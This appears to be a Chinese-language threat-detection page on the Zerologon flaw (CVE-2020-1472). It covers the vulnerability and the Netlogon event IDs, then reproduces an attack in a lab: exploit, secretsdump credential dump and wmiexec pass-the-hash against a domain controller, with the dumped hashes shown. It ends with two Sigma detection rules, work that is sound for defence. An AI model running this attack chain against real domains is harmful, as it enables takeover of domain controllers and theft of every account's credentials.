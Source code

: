 # T1134-001-win-CVE-2020-1472

## 来自ATT&CK的描述

攻击者可能会复制，然后冒充另一个用户的令牌以提升特权并绕过访问控制。攻击者可以创建一个新的访问令牌，该令牌使用来复制现有令牌DuplicateToken(Ex)。然后可以将该令牌用于ImpersonateLoggedOnUser允许调用线程模拟已登录用户的安全上下文，或者SetThreadToken用于将模拟令牌分配给线程。

当攻击者具有要将新令牌分配给的特定现有过程时，他们可以执行此操作。例如，当目标用户在系统上具有非网络登录会话时，这可能很有用。

## 测试案例

2020年9月11日，安全研究员Secura发布了公告，阐明了Microsoft在2020年8月修补的漏洞细节（CVE-2020-1472）。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。本文将从“Zerologon”漏洞原理、漏洞复现、威胁狩猎三个维度对该漏洞进行分析。

具体可参考安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测日志

Windows 系统日志、全流量

此外，在8月份的补丁中，Microsoft添加了五个新的event ID，以通知易受攻击的Netlogon连接：

1、允许存在漏洞的Netlogon安全通道连接时，将生成event ID 5829

2、拒绝易受攻击的Netlogon连接时，将触发event ID 5827和5828

3、允许存在漏洞的Netlogon连接时触发的event ID 5830和5831

如果域控已经安装了补丁，还可以通过以上5个event ID进行威胁狩猎。

## 测试复现

以下模拟测试过程来自安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

实验环境：

```yml
域控：Winserver2012 R2（x64）
IP：10.10.10.10
hostname：DC
域：de1ay.com
```

![windows域控](https://p4.ssl.qhimg.com/t01d53a30398ec357a2.jpg)

```yml
攻击机：ubuntu1604（x64）
IP：10.10.10.111
```

![hacker-pc](https://p4.ssl.qhimg.com/t019275a00ca38b1d6b.jpg)

运行exp脚本，成功将AD域控的机器账户DC的密码置换成空：

```yml
python3 cve-2020-1472-exploit.py  DC 10.10.10.10
```

![hacking-1](https://p0.ssl.qhimg.com/t01f402a9c7c4c3b532.jpg)

此时域控服务器账户密码为空，同等于已知密码，可以导出域内所有用户凭据：

```yml
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
```

![hacking-2](https://p0.ssl.qhimg.com/t01497ee0714e6f98cc.jpg)

导出hash后，发现DC的hash为31d6cfe0d16ae931b73c59d7e0c089c0，也就是空密码，同时获得了域管administrator的hash，利用administrator的hash拿下域控：

```yml
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
```

![hacking-3](https://p5.ssl.qhimg.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无，具体同样可参考安全客文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测规则/思路

### sigma规则

#### 检测规则1

```yml
title: Possible CVE-2020-1472 (zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
- https://github.com/SecuraBV/CVE-2020-1472
tags:
- attack.lateral_movement
- attack.T1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
- 'unknown'
level: high
```

### 检测规则2

```yml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
    - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
    - attack.privilege_escalation
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID:
            - 5829 #具备一定的局限性，需要域控主机打完补丁后，方可使用
    condition: selection
fields:
    - SAMAccountName
falsepositives:
    - Unknown
level: high
```

### 建议

相关规则未在真实环境中进行测试，效果未知。

## 参考推荐

MITRE-ATT&CK-T1134-001

<https://attack.mitre.org/techniques/T1134/001/>

ZeroLogon（CVE-2020-1472）分析与狩猎 

<https://www.anquanke.com/post/id/219090#h2-2>

win_vul_cve_2020_1472-sigma

<https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>

zeek官方

<https://zeek.org/>

